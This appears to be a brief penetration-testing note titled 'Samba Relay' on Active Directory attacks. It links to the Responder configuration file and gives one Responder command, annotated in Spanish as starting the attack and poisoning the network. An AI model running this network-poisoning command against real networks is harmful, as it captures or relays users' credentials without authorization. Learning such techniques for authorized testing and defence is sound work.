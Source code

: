 # Samba Relay 

Tags: #SambaRelay #ActiveDirectory

* [Responder-Samba-Relay](https://github.com/SpiderLabs/Responder/blob/master/Responder.conf)

```python 
❯ python3 Responder.py -I eth0 -rdw           # Comando para iniciar el ataque y envenenar la red
```